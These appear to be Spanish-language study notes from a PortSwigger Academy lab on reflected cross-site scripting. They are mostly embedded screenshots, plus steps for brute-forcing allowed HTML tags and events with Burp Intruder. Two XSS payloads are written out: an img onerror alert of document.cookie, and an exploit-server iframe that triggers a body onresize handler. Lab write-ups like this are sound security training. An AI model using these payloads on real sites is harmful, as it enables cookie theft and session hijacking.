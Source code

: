 ![[portswigger_academy/expert/01_insecure_deserial/images/Pasted image 20220902175857.png]]

%img src=1 onerror=alert(document.cookie)%

![[portswigger_academy/expert/01_insecure_deserial/images/Pasted image 20220902180946.png]]

![[portswigger_academy/expert/01_insecure_deserial/images/Pasted image 20220902181003.png]]

ponemos en off intercept y repetimos el proceso:

![[portswigger_academy/expert/01_insecure_deserial/images/Pasted image 20220902181138.png]]

mando al intruder esta traza:

![[portswigger_academy/expert/01_insecure_deserial/images/Pasted image 20220902181247.png]]

borro el contenido de la string search y sustituyo *(NO OLVIDAR EL HTTP/1.1)*:

![[portswigger_academy/expert/01_insecure_deserial/images/Pasted image 20220902181432.png]]

copy tags to clipboard:

![[Pasted image 20220905183017.png]]

![[Pasted image 20220905183046.png]]


![[Pasted image 20220905183828.png]]

modificamos positions y payload 

![[Pasted image 20220905184030.png]]

copy events to clipboard:

![[Pasted image 20220905184102.png]]

![[Pasted image 20220905184138.png]]

![[Pasted image 20220905184224.png]]

vamos al exploit server:

%iframe src="ip lab/?search=%22%3E%3Cbody%20onresize=alert(document.cookie)%3E"onload=this.style.width='100px'% 

![[Pasted image 20220905185243.png]]

![[Pasted image 20220905185314.png]]




